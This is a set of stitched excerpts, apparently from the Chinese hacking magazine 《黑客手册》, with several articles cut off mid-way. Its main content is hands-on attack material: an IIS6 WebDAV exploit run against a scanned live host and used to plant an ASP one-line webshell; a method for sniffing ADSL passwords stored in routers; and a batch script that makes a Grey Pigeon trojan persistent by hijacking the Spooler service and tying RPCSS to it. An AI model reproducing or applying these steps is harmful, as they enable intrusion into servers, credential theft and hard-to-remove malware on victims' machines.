黑客——热衷着的艺术者，他们所引入世界的新事物无论好坏，不管是在艺术、科学、哲学还是文化领域，只要这门学科还有可以被提炼的信息，且这些信息还能产生新的可能，那么就有黑客会从旧东西中黑出新内容来。

黑客绝对不仅仅局限在用电脑的那群人，Michael Jackson（迈克尔·杰克逊）绝对是流行音乐界的超级“黑客”，他的名字一直被赋予着丰富的含义，他的人生也充满着变幻莫测，歌者、舞者、天才的创作家、流行音乐之王、舞台上的传奇教主……对，Jackson代表了这一切，甚至更多，他用生命诠释了这个复杂而丰富的主题。作为一个世纪流行文化的化身，他的一生是无与伦比的，不太了解的读者朋友可以看看本期的第二张光盘。

## 新闻时评

随着商家力推上网本，再加上“家电下乡”计划及3G开始运营，让越来越多的人们开始近距离地接触到电脑及互联网网络。目前中国的上网人群数量保守估计在3亿左右，如此庞大的群体，安全意识的高低必然参差不齐。而上网本的主要应用就是浏览网页，这使得其系统中“中招”的概率非常之高。

根据某防病毒软件厂商的研究表明，目前的互联网非常脆弱，各种热点新闻、流行软件、社交（SNS）网站、浏览器插件的漏洞层出不穷，为黑客提供了大量入侵便利攻击的机会。

而这其中，网页取代网络成为攻击活动的主要渠道，“挂马网页”已经成为黑客传播病毒的主要手段。目前90%以上的木马病毒通过“挂马”方式传播，这些几乎都源于系统漏洞、后台服务器存在不安全设置、网站文件代码的缺陷（如SQL注入、论坛代码缺陷、跨站脚本等），或网站提供Web服务的程序漏洞、IIS漏洞、Apache漏洞等等，给黑客可乘之机。

## 云安全 VS 云病毒

从多起案例之中可以发现，访问量越大的网站越有被挂马的可能，因为此类网站被黑客关注程度较高。另外就是政府机关网站、各大中型企业网站，由于专业性技术人员缺乏，网站大多由第三方公司外包开发，存在缺陷较多，也最容易被挂马。

对于电脑在使用方面安全的迫切需要，“云安全”在2009年被应用于防病毒软件当中，使得大家对于这个新兴概念有了一个朦胧的认识。按照最简单的理解就是：应用了“云安全”技术的防病毒软件可以使客户端成为整体“云安全”系统的一部分，让用户在被保护的同时并作为侦察员检测所浏览的网站。用户在发现有可疑情况后，可以选择将相关情报提交到“云安全”系统进行分析。

据悉，国内某防病毒软件厂商已经有数百台服务器及上亿的客户端组成了“云安全”系统，现在基本能够覆盖国内互联网，只要网上出现任何挂马网站、木马病毒、木马下载器等安全威胁，都能够在第一时间做出反应。

“云安全”系统运行以来，对挂马网站进行了有效的拦截，目前木马病毒的增长势头被成功遏制，而传统的“感染型病毒”逐渐抬头。这就表明，病毒制造团队在挂马网站被封堵的情况下，只好回归以往低成本的“感染性病毒”（编写较为复杂、感染效率低）攻击方式。

现在就有部分病毒已经开始直接针对防病毒软件而来，秒杀杀软也不是不可能。而且病毒在被一次次检测到后，其变种也会不断出现并开始蔓延，不同的使用者会打造不同的变种，这使得防病毒软件的病毒数据库以后会变得越来越庞大，在人力及物力的方面要不断地投入。

我们可以感觉到，防病毒软件还是属于被动的，它的特性决定了这样，因为只有发现了病毒才能更好地研究分析并在以后查杀它。反观病毒，它就很灵活，被查到了就变形，更改被记录的特征码就是了。

既然是程序，必然有被破解修改的可能，这里我提出一个“云病毒”的概念。按照前面“云安全”的特性，我们可以这样想个思路：利用“云安全”，比如在远程修改客户端相关文件，让其提交病毒信息时发送一份到指定的“云病毒”库，以此知道防病毒软件是否已经掌握了该病毒

“0day 其实有好几个定义的。我这里所说的 0day 泛指网络安全上的 0day，它的意思是指一些没有公布补丁的漏洞，或者是还没有被漏洞发现者公布出来的漏洞利用工具。由于这种漏洞的利用程序对网络安全具有巨大威胁，因此 0day 也成为黑客的最爱。一般的黑客软件带有 0day 的名字，指的是此漏洞还没有打补丁而软件已经公布！明白了吗？”

“明白啦！这样的程序岂不是很厉害？那么可以入侵很多电脑喽？感觉好神奇好强悍啊！”

“是的！0day 其实也有很多种的。某些 0day 可以直接得到系统权限，有些可以间接去获取系统权限，就是说利用 0day 可以控制你的电脑！我这里也不知道怎么跟你解析，以后你电脑知识丰富点的时候就会自然而然明白的！”

“师姐，0day 是谁发现的，是 Wugui 大师吗？”

“NO，NO，NO，0day 是 Hacker 发现的，而 Wugui 大师是另外一种广义上的 Hacker！”

“Who is Hacker?”

## Who is Hacker

“Hacker，引入中国后，直译为‘黑客’。外面的书架上每本关于 Hacker 的图书几乎都有关于 Hacker 的解释，大家都公式化地写着‘Hacker 是指那些钻研计算机网络技术的高手’。”师姐解释道。

“这样的解释太老套了。”猴哥跳出来。

“猴哥，说说看。”阿宝和太极虎都盯着猴哥。

“Hacker 是一种令人尊敬的称谓，Hacker 不是自封的，就像阿宝的神龙大侠，是被大家认同的。”猴哥说罢又跳到另外一台电脑后面去了，说得阿宝心里乐开了花。

“貌似你们说的都是比较早的关于 Hacker 的概念，而现在，黑客名声被搞得很烂！在国内，黑客简直就是犯罪的代名词，各类报刊媒体都是写 XX 黑客盗窃网络被判 X 年。”蛇师兄从阿宝脚边的一堆网线里面钻出来嚷道，阿宝这才注意到蛇师兄。

“媒体这样搞黑客，迟早会让黑客‘被自杀’的。”蟾蜍兄跳上显示器喋喋到，作为身材最为矮小的蟾蜍，每次发言都需要站在巨人的肩膀上。

“好事不出门，坏事传千里，黑客做的好事基本都寂寞无声，但是那些缺乏道德的商业黑客却害了整个圈子，所谓一颗老鼠屎害了全锅汤。”丹顶鹤 CRANE 悠长的脖子从显示器后面伸出来。

“黑客现在都是骂人的话了，比如‘你们全家都是黑客’就是杀伤力无比的骂人必杀技。”蛇兄道。

“前几年的熊猫烧香，铺天盖地的负面新闻，更是让黑客名誉扫地。”蟾蜍兄说罢，蛇兄暗自嘀咕：名誉扫地是不是和名誉主席一样，也是一种头衔？

“我！？……烧香！？”阿宝越来越困惑。

“阿宝，虽然你是神龙大侠，但对于网络而言，你不懂的东西还太多太多，‘熊猫烧香’的故事以后再和你说吧，此熊猫非你熊猫矣，放心吧。”太极虎师姐解释道。

“我觉得 Hacker 需要细分，不能再让媒体一遇到黑新闻，就眉毛胡子一把抓，一刀切，一锅定论。”蟾蜍兄半卧在显示器上品着咖啡，看似十分的惬意，实际上谁都知道，那上面比较烫。

“嗯，嗯，这个问题我早就想过，Hacker 社会分三六九等，Hacker 也有善恶之分，对一些无知的媒体看来是该普及些 Hacker 守则了。”猴哥说完抓住一根网线荡到了另外一台机柜上。

“老外竞选总统大家都知道，谁掌握了媒体，谁就能赢得大选。Hacker 掌握不了媒体，Hacker 只能成为媒体的下饭佐料和新闻热点。Hacker 是一类看似虚无的神秘群体，虚无的东西对于媒体而言，正好和弱势群体一样可以归为同类产品。写写弱势群体，对于媒体而言自然可以信马由缰，自由驰骋，甚至加上小记的 YY 若干，这是媒体一贯的擅长和爱好，因为这样不用担心得罪到谁谁谁。媒体对于 Hacker 事件的报道往往会走向两个极端，一个极端是把 Hacker 描述成无所不能的网络天才，捧上神坛；另一个极端就是 Hacker 尽干坏事，特别是国内翻译的‘黑客’这词，看着就非常刺眼，特别是‘黑’字，更是给了某些擅长采写‘扫黄打黑’新闻稿件的媒体工作者们提供了简单的标准。”丹顶鹤师兄无可奈何地摇摇细长的脖子。

“我们讨论这些没有多少意义了，毕竟这个圈子不像以前追求技术那样纯粹了，商业黑客的兴起已经让这碗水越来越浑浊了。外界看不到 Hacker 的真实，Hacker 不自律自然也怪不得人家媒体乱写。”太极虎冷静地说道。

“Hacker 到底是什么呢？”阿宝听了师兄们的争论，刚一入门仿佛就经历了冰火两重天，一大堆花花绿绿的画面一闪而过，纯粹的 Hacker，媒体眼中的 Hacker，商业黑客纠缠在一起，阿宝晕菜了。

> “Hack 说到底其实是一种精神，一种追求自由之精神。Hack 精神理念实际上和人类社会的普世价值观基本一致，因为追求自由是人类普世价值观的最核心内容。Hack 精神是人类家园最重要的财富之一，打破传统，突破规则，寻找自由，这些理念是我们人类自古以来一直都在进步发展的源动力，可以说这就是 Hack 精神核心价值之所在。阿宝，这些东西听起来很玄妙，只有当你渐渐深入到其中，有一天，自然就会顿悟的。”

阿宝抬头一看，Wugui 大师闪现在墙上的一块屏幕中。阿宝惊呆了，当 Wugui 大师说完这番话后就消失了。Wugui 大师经常亲临现场上空对徒子徒孙们进行思想教育工作，平谷五侠早已司空见惯。

“酷，Wugui 大师说得好深奥，记下来回去再慢慢琢磨。”蛇师兄敲打键盘的动作最为怪异，但是它打字的速度是五侠里面最快的——他是用脑袋和尾巴同时敲键盘。

## 网络道德

阿宝已经被整懵鸟，一天下来，脑袋灌进来的全是从来没有听过的新概念。阿宝突然回过神来，刚进门的时候师姐说的 0day 呢？阿宝回头找到师姐。

“阿姐，把你的 0day 给一个啦！我想玩玩耶！”阿宝玩起了滚滚家族惯用的撒娇动作。

“宝，学习 Hacker 技术可不是闹着玩的，在学习之前，我先来给你讲讲基本的网络道德，免得你误入歧途。”

“好啊好啊，洗耳恭听师姐教诲。”

“Hacker 技术是双刃剑！打个比方，Hacker 技术好比功夫，雪豹太郎练成功夫之后是为了满足自己的野心和私欲，一心只想称霸天下，且不择手段，很多人因此受到伤害；而阿宝你练成功夫，却是为了匡扶正义，弘扬正气，铲奸除恶，为天下老百姓主持公道。所以 Hacker 技术和功夫都一样，在不同道德水准的人手里，会有不同的用法。”师姐语重心长，仿佛平谷五侠曾经狙击雪豹太郎的惨烈场面又一幕幕地回显在脑海中。阿宝也沉浸在那场和太郎激烈的生死决斗中。

“Hacker 技术是游走在法律和道德边缘的东西，稍有不慎，就会触及到道德的底线，甚至越过法律的警戒线。差错往往就在一念之间！所以师傅给我们定下了几条要求，贴在墙上了，你看看。”太极虎给阿宝指了一下贴在墙上的守则——平谷网络 7 不箴言。

阿宝走过去，认真看起来。

### 平谷网络 7 不箴言

1. 不欺骗任何一个请求帮助的网友，对于他们的一些不合理要求，要给他们说是不对的，让他们改正。
2. 不要为了钱而迷失了自己的本性。钱确实很重要，但是我们不能为了钱去做一些不法勾当，更不能本来不能做到的事情，说自己能做到，骗取钱财，这个就是罪大恶极！
3. 不断学习进步，做一个网络安全守护者。因为攻击方法和技巧以及漏洞都是很多的，任何一个人都不能保证绝对安全。只有不断学习才能加强自身技术，多阅读、多看、多实践！
4. 不要以“炫耀”而入侵别人的电脑。因为那是别人的疏忽大意而产生的不安全因素，你应该在第一时间给他报告，给他说出漏洞怎么弥补，一起交朋友认识，因为他的很多知识你也可能不知道，说不定他也正在入侵你的电脑。
5. 不要别人叫你一句“黑客”就自认为很了不起。因为不管作为 Hacker 的你是去创造或者破坏，这些都只是网络社会里很小很小的一部分，随便说些东西可能你就不明白。不要以为黑客什么都可以做，实际上作为黑客自己，他心里很清楚。
6. 不要以为自己学了点 Hacker 技术，黑了几个网站，就觉得自己是天才或者与众不同，自命不凡，到处炫耀，处处留名。如果你仅仅只是黑客里面唱歌说得好听的，歌手里面黑客水平极高的，那赶紧收声吧。路很长，要学的东西还很多，还需要不断的努力和到达，以及重新修炼自己的基本道德观。否则，喝茶或者喝咖啡也许将会作为被抓进派出所加入到你人生字典中浓墨的一页。("There are no accidents!" 阿宝突然想起了 Wugui 大师曾经的一句话。)
7. 不要沮丧，不要逃避，这个圈子的道德水准参差不齐，有人潜心研究，有人整天游荡，所谓林子大了什么鸟都有。你无须管好别人，但是要学会正确对待自己。不要因为别人骂你“垃圾”而让你受挫感很严重；不要因为别人表扬你就飘飘然；不要因为别人道德沦丧而认为那就代表了这个圈子的综合素质得分。请记住，就算喜欢跳水也要去掉 2 个最低分吧。相信自己，坚定信念。（看到这里，阿宝想起一句话：“You must believe”。）

## IIS6

“原来学习安全知识还有这么多准则要遵守啊！真不可思议。师姐，你的教导我会谨记的，你刚才跟师傅说的 IIS6 漏洞可以教我吗？我很想看看入侵电脑到底是怎么一回事。以前在网上看那些新闻说某某黑客入侵某某网站，但是都不知道是怎么一回事。现在师姐你正好有 0day，就演示一次给我看吧！”阿宝看完平谷守则，又找到了太极虎。

“好吧！既然师傅都交代让我教你，就演示给你看看吧！IIS6.0 你知道是什么东西不？” 太极虎反问阿宝一句。

“这个好像是什么服务器用的东西吧？其它就不晓得咯！”阿宝尴尬地笑笑。

“没错！其实 IIS 是 Internet Information Services（互联网信息服务）的缩写，是由微软公司提供的基于 Microsoft Windows 的互联网基本服务。IIS 并不是一种编程语言，它只是一种‘环境’，一种让 ASP 语言运行的环境，同时它也提供了供其它语言解析运行的接口 ISAPI。IIS 的基本功能是提供信息服务，如架设 HTTP、FTP 服务等，是 Windows NT 内核系统自带的，不需要下载。其语言版本与系统安装盘的语言是一样的，版本在不同的系统中是不一样的。WinNT 中为 4.0，Win2000 中为 5.0，WinXP 中为 5.1（注：在 Windows XP Home 版中没有带 IIS），Win2003 中为 6.0。不同版本功能不太一样，所以今天这个 IIS6.0 漏洞存在于 Windows 2003 的系统中！”

“行啦！行啦！赶快开始吧！我明白啦！” 其实阿宝面对一堆术语只能囫囵吞枣了，现在他只是想直奔主题。

## 扫描器

太极虎打开了一个名叫 WebDavScanner 的扫描器。“WebDavScanner 扫描器是专门针对 IIS6 WebDAV 漏洞扫描用的！有了这个扫描器，查找漏洞主机就容易多了！看看以下作者对于软件的说明吧：

‘可以对提交的 option/put/get 进行判定。可以输入 IP 或者域名，支持的 IP 段包括：192.168.1.1-255、192.168.1.1-255.255、192.168.1.1-255.255.255、192.168.1.1-192.255.255.255 等形式，记得用逗号分割；端口跟 IP 类似；搜索链的是大家可以根据自己的要求修改路径；线程方面，最多不能超过 500 个（程序内部限定最多 500）；扫描结果：红色表示可以直接 PUT 上传，黄色表示可以 GET 下载源码，其它颜色表示存在 WebDAV 漏洞；另外，点击右键可以直接打开网页或者复制 IP。’

看了说明之后，先找一个 IP 段尝试一下吧！” 太极虎不厌其烦地讲道！

“等等！师姐！什么是 ‘IP 段’ 啊？搞不懂！” 阿宝问道。

## 什么是 IP 地址

“汗！笨熊猫！是 IP，不是‘屁’。真想揍你！这样吧，我直接写一个文本给你，你自己慢慢理解吧！” 太极虎暗自发笑，并把文本给了阿宝。

**IP 地址的概念**

我们知道，因特网是全世界范围内的计算机、联网一体而构成的通信网络的总称。联在某个网络上的两台计算机之间在相互通信时，在它们所传送的数据包里都会有某些附加信息。这些附加信息就是发送数据的计算机的地址和接受数据的计算机的地址。像这样，人们为了通信的方便，给每一台计算机都要分配一个类似我们日常生活中的电话号码一样的标识地址，该标识地址就是这台计算机的 IP 地址。

根据 TCP/IP 协议规定，IP 地址是由 32 位二进制数组成，而且在 Internet 范围内是唯一的。例如，某台设在因特网中的计算机的 IP 地址为：11001010 01001001 10001100 00000010。

很明显，这些数字对于人们来说是不太好记。为了方便记忆，大家就将组成计算机的 IP 地址的 32 位二进制分成四段，每段 8 位，中间用小数点隔开，然后将每段八位二进制转换成十进制数，这样上述计算机的 IP 地址就变成了：210.73.140.2。

数分钟过后，熊猫终于看完了，说道：“我大概明白了，简单地说，IP 地址就像我们现实中的门牌号，有了这个东西，邮递员就能很方便地找到我们家了，并且是唯一的。我平时在局域网连接上网的时候往往也需要自己手动设置 IP 地址，例如 192.168.1.1 这样子，也属于 IP，对吧，师姐？”

## 安装 PHP 环境

“对啊！你这小子还是很聪明的！” 话声未落，师姐太极虎已经输入了一段 IP 进行扫描了！结果出来了，扫出来只有一台主机有漏洞。

“图中红色的那个亮条就是表示是有漏洞的主机，现在我们还需要有个测试环境！由于这里我用的是 PHPSHELL 利用程序，所以要建设一个 PHP 的环境！我知道你肯定不明白什么是 PHP 了，这里就先不跟你解释了，以后我会教你的，你暂时理解为一个可以运行 PHP 程序的环境就可以了！PHP 环境架设对你来说有点难度，我这里就演示一个傻瓜化的程序给你看！先把 PHP168 整站套件下载下来，下载地址是：http://down2.php168.com/p8-server_v6.exe（本地光盘有提供），下载安装它就可以了，很简单的。在安装之前要先把迅雷等占用 80 端口的程序关闭掉，接着打开浏览器访问 127.0.0.1，出现页面就代表安装成功啦！”

“明白！继续吧！激动的时刻快到了啊！哈哈！”阿宝满脸兴奋！

## 核心代码

“接着把利用代码保存为 PHP 文件（代码太长了，打包在光盘里了，文件名叫 123.php），我们用记事本新建一个文件，把内容复制进去另存为就可以了！”

阿宝手忙脚乱地把代码保存成 PHP 文件了！

“你看你的样子，要镇定！继续看我演示，要留心看啦！”阿宝撇了撇嘴，继续认真地看着师姐的操作！

“点击‘开始’菜单，在‘运行’里面输入 CMD，然后回车进入 CMD 界面！用 CD 命令转到 `D:\p8-server\local\php4` 目录，接着输入 `php.exe 123.php` 后按回车键！出现了此利用程序的说明！”

```
Usage: php 123.php source/path/put host path
Example: php 123.php source www.tian6.com /blog/readme.asp
Example2: php 123.php path www.tian6.com /secret/
Example3: php 123.php put www.tian6.com /secret/  (save ur evil code as test.txt in the same path of i.php)
```

## 上传文件

“既然我们这里检测到的是上传漏洞，那就先访问这个漏洞主机的网站，找一个目录放我们的后门吧！看好了，要这样操作：打开网站随便找一个图片，在图片上按鼠标右键选择‘属性’，把图片地址复制出来。我们这里的地址是 http://XX.XX.XX.XXX/img/login_11OA.jpg，就是说 login_11OA.jpg 图片在 img 目录里面了！现在到 D:\p8-server\local\php4 目录下建立一个要上传的文本 text.txt（程序设定这个名字的），在 text.txt 里输入‘熊猫路过’并保存。现在开始上传，回到 CMD 模式中输入 `php 123.php put xx.xx.xx.xx /img/`，结果显示 http://xx.xx.xx.xxx/img/%c0%af/racle.asp 就是我们上传成功的访问路径！”

“别动！师姐！出问题了！出问题了！刚才不是说 img 目录吗？现在怎么显示的是 /img%c0%af/ 了？不同了吧！”熊猫满脑子疑惑！

“O(∩_∩)O 哈哈！还是很专心的，脑子转的真快！那先打开 `http://xx.xx.xx.xxx/img%c0%af/racle.asp` 看看是否成功显示。结果无法显示网页。”

“那我们再来看看 `http://xx.xx.xx.xxx/img/racle.asp`，访问成功！”

“成功了吧？这个漏洞利用程序有时候是这样的，`%c0%af` 实际上是 URL 编码，去掉这些编码，留下正确路径就可以了！既然写入成功，再来放一个一句话木马上去吧！我们只要把 text.txt 内容替换为 `<%eval request(chr(35))%>` 一句话就可以了，然后按照刚才的方法进行上传！最后用海洋顶端客户端连接，成功访问。”

## 连接成功

“点击‘提交’之后便显示连接成功的界面！输入密码登录上去，接下来就可以进行获取服务器权限的操作了！”

## 后记

“什么是一句话木马啊？什么是提权？什么又是网页木马啊？又是怎么获取服务器权限呢？这么难懂！”阿宝百思不得其解，使劲地抓脑袋！

“这么多问题还是等我们吃了午饭再给你解释吧，你想累死我啊？真是的。”

“好啊！吃饱了师姐要详细给我解释哦，今天请你吃大餐吧！”

午饭后，阿宝他们到底是怎么获取服务器权限的呢？他们又会遇到什么难题呢？到底是怎么通过网页木马提权获取服务器权限呢？阿宝又学会了什么技术呢？若想知道后事如何，请大家继续关注《黑客手册》的下一期！

【文章中所涉及的相关工具及代码已收录到本期光盘】

## 破解路由器的 ADSL 账号和密码

又是一个暑假的到来，伴随着“黑手”一起走过来的读者们，你们还有多少个暑假呢！现在回想起来，你是感慨还是欣慰呢？岁月不饶人，现在的你体会到了吗？除了感叹岁月的蹉跎外，我们现在能做的就是好好利用时间，好好学习！那么，你现在用心看《黑客手册》了吗？呵呵，看看这期的 Q 版为你准备了什么？

从本文你可以学到：如何破解路由器上的 ADSL 账号和密码。

破解路由器中的 ADSL 账号密码是一个比较早就有讨论的问题了，在 04 年查看猫里面的 ADSL 信息，然后利用互联网漏洞来刷 Q 币就采用了相关技术，不过都是很简单的查看源代码的方式。这种方法我一直没有用过，偶然在网上看到了相关的文章，自己做了一些修正，虽然最先想到的不是我，但是今天还是给大家详解一下，共同学习。

- 虚拟机软件 VMware Workstation v6.5.2.156735
  http://www.crsky.com/soft/1863.html
- 软路由镜像 RouterOS (3.20)
  http://www.mikrotik.com/download/mikrotik-3.20.iso
- 嗅探工具 Wireshark (Ethereal) v1.1.3
  http://www.crsky.com/soft/5357.html

### 一、漏洞利用原理

ADSL 用户采用 PPP 协议中的 PAP 协议或 CHAP 协议进行身份验证。由于 PAP 协议采用明文传输密钥信息，所以该信息——ADSL 账号和密码，可以通过监听的方法得到。关于 PPP 协议和 PPPoE 协议的详细介绍请参照其它相关资料。

### 二、破解账号和密码的思路

使用 RouterOS（俗称“软路由”）建立一台 PPPoE 服务器；身份验证方式采用 PAP 协议，当路由器与这台服务器通信的时候进行监听，即可获取保存在路由器中的 ADSL 账号和密码。

### 三、测试过程

测试计算机：IBM Thinkpad T60
测试路由器：TP-Link TL-WR541G+

**第一部分：建立一台 PPPoE 服务器**

1. **新建一个虚拟机系统**

使用 VMware 和 RouterOS 的组合搭建一个符合测试要求的 PPPoE 服务器。打开安装好的虚拟机软件（VMware），点击 “Home” → “New Virtual Machine（建立一个新的虚拟机）”，然后点击 “Next（下一步）”，在 “Virtual machine configuration（虚拟机配置）” 这里选择 “Typical（默认）”。

然后在 “Guest operating system” 这里选择 “Other（其他）”，下面的 “Version（版本）” 也选择 “Other（其它）”。

然后点击 “Next（下一步）”，在 “Virtual machine name（虚拟机名称）” 和下面的 “Location（路径）” 可以根据自己的喜好自由设定。

网站还原成功，如图6。

然后我再次将恶意代码插入到index.php中，之后又刷新了5次，嵌套页面才消失。Pvg的波动还挺大，可见我总共刷新了21次页面，执行了2次检测，平均每隔10.5个页面检测一次，非常接近我们设置的Pvg（即10）。

## 三、不足

WebSec并没有对css、js、html等静态文件进行检测，而这些文件也是可以挂马的。但是如果PHP文件被挂马，静态文件都会顺便被还原的。好在现在大多数马都会挂在动态脚本中，这也是恶意程序自动化挂马的结果。

WebSec对全静态的PHP站理论上效果不会理想，因为有些静态站是动态的脚本不做修改或添加静态文件夹实现的，而这些静态文件又无法及时备份到ZIP包里，因此无法被还原。

WebSec生成的数据文件web_data.php并不能防止挂马，假如攻击者很熟悉WebSec的防御原理，他就会单单只在web_data.php中挂马，这样WebSec就发现不了。而所有网站文件都会把web_data包含进去，以此来实现挂马目的。

“防挂马程序本身不防挂马”不是一句笑话，而是程序设计的死角。假如WebSec检测了web_data.php的长度，又反过来将长度信息写入其中，那web_data.php的长度便会因此改变，其中记录的数据便不能循环了。

好的程序都需要经过无数的debug，WebSec也不例外，欢迎大家来debug，让这款摇篮中的程序越来越完善。

【文章中涉及到的工具已经收录于本期光盘中】

> 编辑点评：
> 作者最后的几段说的比较公正，也就是我妥协到的，如果程序本身就不安全，那么用户在使用它的时候危害将会变得更大。



## 让杀软服务来保护木马服务端

从本文你可以学到：
- 如何巧妙设置木马服务端

虽说目前有很多木马的免杀方法可以让服务端躲过杀毒软件的检测，但是对于有经验的用户，仍然可以通过冰刃等安全工具，检测出系统里面存在的木马病毒。因此当务之急就是保护好服务端程序，不然可以随意的被用户进行结束、停止操作。常言说得好：“师夷长技以制夷”，今天我们就利用系统里面最常见的服务，来保护服务端程序的正常运行。

### 一、巧妙设置服务端

我们还是按照“老规矩”，先配置一个服务端程序，这里还是使用常见的灰鸽子木马，点击“配置服务程序”按钮弹出配置窗，在“安装路径”中设置服务端程序的安装路径和名称，比如我这里设置的安装路径就是$(WinDir)\svchost.exe，如图1。

当然你也可以取其它的名称，比如QQ、Maxthon、迅雷等。接着在“启动项设置”标签中，将木马默认的启动选项前的勾去掉，这是因为后面我们将利用系统服务来启动它。然后在“高级选项”标签中，将所有选项前面的勾去除，这样可以避免主动防御的提示。



### 二、修改服务来保护

我们知道在Windows系统中，有很多各式各样的启动服务，这些服务里面有的是必须的，有的则是可以被停止使用的。还记得几年前的冲击波病毒吗？正是因为病毒所利用的程序和系统必须的服务存在关系，因此当病毒发作时就会出现Windows系统崩溃的情况。而现在我们只需要把木马的启动服务，修改成系统必须的服务，就可以起到保护作用。

现在打开一个记事本程序，输入以下的代码另存为mm.bat文件：

```batch
@echo off
sc stop Spooler
sc config Spooler start= auto
sc config "Spooler" binPath= "c:\windows\svchost.exe /service"
sc config rpcss depend= Spooler
sc start Spooler
attrib +s +h +r svchost.exe
```

这段代码的作用是首先将自带的打印机服务（Spooler）进行停止，并将其运行方式设置成“自动运行”的方式。当然大家也可以根据实际情况，选择那些不常用的系统服务来操作。然后将打印机服务关联的文件路径，修改成服务端程序的路径c:\windows\svchost.exe。接下来就是整段代码最为关键的地方，将rpcss（Remote Procedure Call）服务的依存关系链接到打印机服务上，如图2。

由于Remote Procedure Call服务是系统的关键服务，如果被停止运行的话就会出现系统崩溃的情况。而此时我们将其依存关系链接到打印机服务，就表示如果打印机服务被停止的话，那么Remote Procedure Call服务也将无法正常运行。这样即使是用户发现了服务端程序的存在，也迫使用户不敢随意停止打印机服务，这样服务端程序也就可以正常运行。最后就是将服务端文件的属性设置成只读、隐藏和系统等属性状态就可以了。



### 三、捆绑文件巧入侵

现在运行ExeScript这款脚本编译工具，该工具可以将批处理文件、VBS脚本等快速转换为可执行文件；同时可以保护文件中的内容不被其他人进行修改。点击“文件”菜单“新建”命令中的“批处理文件”命令，接着将上面的这段脚本代码复制到程序窗口中，然后点击“方案”菜单中的“构建”命令，即可将脚本文件编译成可执行文件，如图3。

